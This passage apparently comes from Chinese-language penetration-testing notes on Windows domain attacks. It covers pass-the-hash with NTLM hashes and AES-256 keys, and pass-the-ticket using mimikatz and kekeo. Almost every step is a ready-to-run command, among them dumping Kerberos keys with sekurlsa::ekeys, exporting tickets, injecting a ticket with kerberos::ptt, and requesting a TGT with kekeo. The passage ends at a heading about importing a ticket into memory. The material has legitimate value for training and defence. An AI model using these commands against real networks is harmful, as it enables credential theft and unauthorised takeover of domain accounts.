 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:pentest.hacker /ntlm:[NTLM]"<br>``` |

### [](#%E4%BD%BF%E7%94%A8-aes-256-%E5%AF%86%E9%92%A5%E8%BF%9B%E8%A1%8C%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92)使用 AES-256 密钥进行哈希传递

使用 mimikatz 抓取 AES-256 密钥

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::ekeys"<br>``` |

pth 攻击（目标机器必须安装 KB2871997）

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:pentest.hacker /aes256:[aes256]"<br>``` |

## [](#%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)票据传递

### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E8%BF%9B%E8%A1%8C%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)使用 mimikatz 进行票据传递

#### [](#%E5%AF%BC%E5%87%BA%E7%A5%A8%E6%8D%AE)导出票据

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::tickets /exports"<br>``` |

#### [](#%E6%B3%A8%E5%85%A5%E7%A5%A8%E6%8D%AE)注入票据

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>mimikatz "kerberos::ptt" "C:\xxx.kirbi"<br>``` |

### [](#%E4%BD%BF%E7%94%A8-kekeo-%E8%BF%9B%E8%A1%8C%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)使用 kekeo 进行票据传递

#### [](#%E7%94%9F%E6%88%90%E7%A5%A8%E6%8D%AE%E6%96%87%E4%BB%B6)生成票据文件

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>kekeo "tgt:ask /user:administrator /domain:pentest.hack /ntlm:[NTLM]"<br>``` |

#### [](#%E5%B0%86%E7%A5%A8%E6%8D%AE%E6%96%87%E4%BB%B6%E5%AF%BC%E5%85%A5%E5%86%85%E5%AD%98)将票据文件导入内存
